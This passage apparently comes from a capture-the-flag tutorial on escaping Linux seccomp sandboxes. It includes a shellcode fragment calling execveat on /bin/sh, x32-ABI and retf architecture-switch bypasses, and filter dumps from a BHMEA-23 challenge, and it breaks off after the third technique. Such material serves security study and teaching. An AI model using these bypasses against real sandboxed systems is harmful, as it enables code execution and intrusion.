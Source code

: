 ```assembly
    mov rax, 0x142  ; execveat system call number
    mov rdi, -100   ; special value for current working directory
    mov rsi, FILENAME_ADDR ; here you will set the /bin/sh address if you got it from libc or found your way to do it ;)
    mov rdx, FILENAME_ADDR   ; 
    mov r10, 0x0    ; environment vars
    xor r8, r8      ; flags
    syscall
```

### 2. Go old:

In some cases the filter will not check for the architecture or the syscall number for the x32, every case has it's own solution

For example , this rule check for the arch.

```terminal
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x11 0xc000003e  if (A != ARCH_X86_64) goto 0019
```

If the rules don't check for the arch as the rule above then you can jump to x86 mode with `retf` and call x86 syscalls to bypass the filter.

```terminal
 line  CODE  JT   JF      K
=================================
...
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x0f 0x00 0x40000000  if (A >= 0x40000000) goto 0019
```

If the rules don't check if the syscall number is larger than 0x40000000 like above then we could use x32 ABI to bypass the filter.
For example we can call 0x40000000 + sys_number_of_syscall (e.g 0x4000003b for execve) 

### 3. Change argument values in memory:

In some cases you will find a rules that allow `execve` for example, but it's allow it with specific arguments. An example from BHMEA-23, a challenge that read a shellcode from user then run it, but first it's init some rules.

```terminal
 0025: 0x15 0x00 0x04 0x0000003b  if (A != execve) goto 0030
 0026: 0x20 0x00 0x00 0x00000014  A = filename >> 32 # execve(filename, argv, envp)
 0027: 0x15 0x00 0x0e 0x00005652  if (A != 0x5652) goto 0042
 0028: 0x20 0x00 0x00 0x00000010  A = filename # execve(filename, argv, envp)
 0029: 0x15 0x0b 0x0c 0x66129050  if (A == 0x66129050) goto 0041 else goto 0042
 0030: 0x15 0x00 0x0a 0x00000000  if (A != read) goto 0041
 0031: 0x20 0x00 0x00 0x00000024  A = count >> 32 # read(fd, buf, count)
 0032: 0x15 0x00 0x09 0x00000000  if (A != 0x0) goto 0042
 0033: 0x20 0x00 0x00 0x00000020  A = count # read(fd, buf, count)
 0034: 0x15 0x00 0x07 0x00000001  if (A != 0x1) goto 0042
 0035: 0x20 0x00 0x00 0x0000001c  A = buf >> 32 # read(fd, buf, count)
 0036: 0x25 0x05 0x00 0x00000000  if (A > 0x0) goto 0042
 0037: 0x15 0x00 0x04 0x00000000  if (A != 0x0) goto 0042
 0038: 0x20 0x00 0x00 0x00000018  A = buf # read(fd, buf, count)
 0039: 0x35 0x00 0x02 0x0c0de000  if (A < 0xc0de000) goto 0042
 0040: 0x35 0x01 0x00 0x0c0df000  if (A >= 0xc0df000) goto 0042
 0041: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0042: 0x06 0x00 0x00 0x00000000  return KILL
```
